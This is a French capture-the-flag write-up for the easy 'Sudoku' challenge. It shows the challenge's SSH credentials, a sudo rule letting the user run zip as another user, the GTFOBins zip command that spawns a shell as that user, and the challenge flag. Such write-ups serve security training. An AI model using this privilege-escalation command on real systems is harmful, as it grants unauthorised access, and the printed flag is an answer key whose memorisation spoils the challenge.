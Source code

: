 # Sudoku

## Sujet :

> Lors de l'un de vos tests de sécurité, vous compromettez un serveur applicatif.
> 
> Prouvez à vos clients que vous pouvez obtenir des informations sensibles d'autres utilisateurs.
>
> === Connexion SSH ===
> 
> Login : padawan
> 
> Mdp : padawan
> 
> Serveur : sudoku.phack.fr

Tags : `system` `sudo` `easy`

## Solution :

On liste avec `$ sudo -l` les commandes qu'on peut exécuter avec les droits d'un autre utilisateur.
```
$ sudo -l
User padawan may run the following commands on sudoku:
    (master) NOPASSWD: /usr/bin/zip
```

Tiens donc ! On fait un petit tour du côté de https://gtfobins.github.io/ pour trouver une vuln associée à zip.
Et en effet, on peut obtenir un shell :
```
$ TF=$(mktemp -u)
$ sudo -u master zip $TF /etc/hosts -T -TT 'sh #'
$ whoami
master
```

`PHACK{U_h4v3_tH3_suP3r_P0w3r}`